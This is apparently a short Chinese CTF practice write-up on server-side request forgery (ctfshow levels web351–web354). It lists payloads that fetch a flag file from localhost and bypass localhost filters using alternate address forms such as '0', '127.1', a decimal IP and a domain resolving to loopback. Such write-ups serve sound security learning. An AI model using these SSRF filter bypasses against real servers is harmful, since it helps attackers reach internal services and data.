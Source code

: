 ```yaml
---
title: SSRF刷题
date: 2025-01-02 13:10:52
tags:
    - "web"
    - "刷题"
    - ctfshow_ssrf
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web351
```
url=http://127.0.0.1/flag.php
url=http://localhost/flag.php
```

### web352

这里过滤了localhost和127.0.0.1
```
url=http://0/flag.php #在Linux中，0也会被解析成127.0.0.1
url=http://127.255.255.254/flag.php 
url=http://127.1/flag.php #127.1会被解析成127.0.0.1，也就意味着为零可缺省
url=http://2130706433/flag.php
```
### web354
```
url=http://sudo.cc/flag.php
```
查来的，我也不知道为什么。
